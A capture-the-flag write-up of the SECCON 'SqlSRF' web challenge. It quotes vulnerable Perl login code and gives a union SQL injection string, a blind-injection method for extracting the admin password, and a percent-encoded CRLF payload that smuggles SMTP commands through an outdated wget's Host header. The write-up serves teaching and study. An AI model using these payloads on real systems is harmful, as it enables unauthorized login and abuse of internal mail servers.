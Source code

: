 # SqlSRF (Web, 400p)

```
The root reply the flag to your mail address if you send a mail that subject is "give me flag" to root.
```

In the task initially we get access to a login screen and [source code of the index page](index.pl]).
First goal is to somehow login into the system.

In the sources we can see:

```perl
if($q->param('login') ne '') {
  use DBI;
  my $dbh = DBI->connect('dbi:SQLite:dbname=./.htDB');
  my $sth = $dbh->prepare("SELECT password FROM users WHERE username='".$q->param('user')."';");
  $errmsg = '<h2 style="color:red">Login Error!</h2>';
  eval {
    $sth->execute();
    if(my @row = $sth->fetchrow_array) {
      if($row[0] ne '' && $q->param('pass') ne '' && $row[0] eq &encrypt($q->param('pass'))) {
        $s->param('autheduser', $q->param('user'));
        print "<scr"."ipt>document.location='./menu.cgi';</script>";
        $errmsg = '';
      }
    }
  };
  if($@) {
    $errmsg = '<h2 style="color:red">Database Error!</h2>';
  }
  $dbh->disconnect();
```

There is a clear SQLInjection in the query which is supposed to retrieve the password for given user from the database.
The password is then compared with `&encrypt($q->param('pass'))`.
We can easily inject any password simply by providing username `whateve' union select 'OUR_PASSWORD` but we need to know the encrypted form of `OUR_PASSWORD` for this to work.
Fortunately we can see in the code also:

```perl
my $user = $q->param('user');
//
($q->param('save') eq '1' ? $q->cookie(-name=>'remember', -value=>&encrypt($user), -expires=>'+1M') : undef)
```

If we put username and select "remember me" checkbox, the system will automatically create the cookie with encrypted username.
We can then first put `OUR_PASSWORD` as username, select "remember me", click login and retrieve the encrypted string from the cookie.

Once we manage to login into th system it turns out it's no good because as non-admin user we can only use `netstat` command and we can't use `wget`:

![](page.png)

Netstat at least shows that there is SMTP server running there, and the task description says we need to use it to send email to root.

It seems we actually need to login as admin, because right now the system remembers exactly what username we put, and we're logged in as `whateve' union select ...` and not as `admin`.
First step is to retrieve the admin password from database.
This we can do via Blind SQLInjection in the login screen.
We can't get any echo from the database but we can either login or not login, and we can use this as boolean oracle.
So we can do injection in the form `whatever' union select 'OUR_ENCRYPTED_PASSWORD' where (CONDITION) and '1'='1`.
The `CONDITION` here is simply a check on the characters of admin password.

After a moment we get back: `d2f37e101c0e76bcc90b5634a5510f64`.
Now we need to decrypt this password.
It turns out there is an interesting code on the page:

```perl
$user = &decrypt($q->cookie('remember')) if($user eq '' && $q->cookie('remember') ne '');
//
$user = $q->escapeHTML($user);
//
<tr><td>Username:</td><td><input type="text" name="user" value="$user"></td></tr>
```

The page actually takes encrypted string from `remember` cookie, decrypts and puts in the `login` field of the form.
It means we can simply place the recovered password in the cookie, and the page will decrypt it for us.
This way we learn that admin password is `Yes!Kusomon!!`.

Now we're back in the system, this time as admin, and we can run `wget`.
Sadly we can't really change neither of the commands and no command injection tricks work, we can only use what is provided.
We have to use `wget` to send an email!

SMTP and FTP servers are often very permissive when it comes to accepting commands.
They simply ignore incorrect commands and execute correct ones.
What `wget` sends to the designated host is:

```
GET / HTTP/1.1
User-Agent: Wget/1.14 (linux-gnu)
Accept: */*
Host: 127.0.0.1
Connection: Keep-Alive
```

And SMTP server will simply claim that those are all incorrect commands.

We've noticed that `wget` version was outdated, so maybe there is some vulnerability we could use.
Some googling brought us to https://lists.gnu.org/archive/html/bug-wget/2017-03/msg00018.html and this was exactly what we needed.
It turns out we can use newlines and line feeds to modify `Host` header and append additional elements there.
We need to add:

```
HELO 127.0.0.1
MAIL FROM:<shalom@p4.team>
RCPT TO:<root@ymzk01.pwn>
DATA
From: shalom@p4.team
To: root@ymzk01.pwn
Subject: give me flag
.
QUIT
```

So we prepared the payload (with percent escapes):

```
127.0.0.1%0d%0aTest%3a %0aHELO 127.0.0.1%0aMAIL FROM%3a%3cshalom%40p4.team%3e%0aRCPT TO%3a%3croot%40ymzk01.pwn%3e%0aDATA%0aFrom%3a shalom%40p4.team%0aTo%3a root%40ymzk01.pwn%0aSubject%3a give me flag%0d%0a.%0d%0a%0aQUIT%0a:25
```

And we got:

![](attack.png)

And right after that we've received the flag, encrypted again with the same encryption as passwords.
So we used the remember cookie trick again and finally recovered the flag: `SECCON{SSRFisMyFriend!}`
